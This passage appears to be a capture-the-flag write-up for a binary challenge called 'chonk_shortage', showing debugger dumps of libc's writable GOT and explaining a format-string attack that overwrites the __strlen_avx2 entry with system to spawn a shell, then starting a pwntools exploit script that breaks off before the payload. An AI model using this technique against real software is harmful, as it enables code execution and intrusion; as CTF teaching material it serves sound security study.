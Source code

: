 ```
18:00c0│  0x7ffff7fae0c0 (*ABS*@got.plt) —▸ 0x7ffff7f33a00 ◂— endbr64
19:00c8│  0x7ffff7fae0c8 (_dl_deallocate_tls@got.plt) —▸ 0x7ffff7dc2170 ◂— endbr64
1a:00d0│  0x7ffff7fae0d0 (__tls_get_addr@got.plt) —▸ 0x7ffff7dc2180 ◂— endbr64
1b:00d8│  0x7ffff7fae0d8 (*ABS*@got.plt) —▸ 0x7ffff7f3b1d0 ◂— endbr64
1c:00e0│  0x7ffff7fae0e0 (*ABS*@got.plt) —▸ 0x7ffff7f33d80 ◂— endbr64
1d:00e8│  0x7ffff7fae0e8 (*ABS*@got.plt) —▸ 0x7ffff7f35ac4 ◂— endbr64
```

Notice that libc's GOT (which only has partial RELRO, thus writable) is mapped at `0x7ffff7fae000`.

```
13:0098│  0x7ffff7fae098 (*ABS*@got.plt) —▸ 0x7ffff7f37ae0 ◂— endbr64
```

The above GOT entry is actually `__strlen_avx2` which is used in `puts`. Incidentally, `puts` passes its parameter to `__strlen_avx2` during execution. Since the program does `puts(name)`, we can simply overwrite the above GOT entry with the address of `system`, and set our name to `/bin/sh`. We can leverage on our format string bug in `printf(feedback)` to do so.

With this in mind, we can craft the following exploit:

```python
#!/usr/bin/env python3

from pwn import *

HOST = "chals.ctf.sg"
PORT = 30101

CHOICE_PROMPT = b"Enter choice => "
SIZE_PROMPT = b"How chonky would you like your CHONK? "
NAME_PROMPT = b"Please enter your name: "
FEEDBACK_PROMPT = b"Tell us how you felt about your chonk: "

ADDRESS_MARKER = b"CHONK @ "
ADDRESS_END_MARKER = b" ["
PAYLOAD_MARKER = b"You have submitted:\n"
PAYLOAD_END_MARKER = b"\nThanks,"

elf = context.binary = ELF("./dist/chonk_shortage")
libc = ELF("./dist/libc.so.6")
libc.symbols["__strlen_avx2"] = 0x218098

if args.REMOTE:
    io = remote(HOST, PORT)
else:
    io = elf.process()


def send_payload(payload: bytes) -> bytes:
    if args.REMOTE:
        io = remote(HOST, PORT)
    else:
        io = elf.process()
    io.sendlineafter(CHOICE_PROMPT, b"3")
    io.sendlineafter(NAME_PROMPT, b"123")
    io.sendlineafter(FEEDBACK_PROMPT, payload)
    io.recvuntil(PAYLOAD_MARKER)

    response = io.recvuntil(PAYLOAD_END_MARKER, drop=True)

    io.close()

    return response


```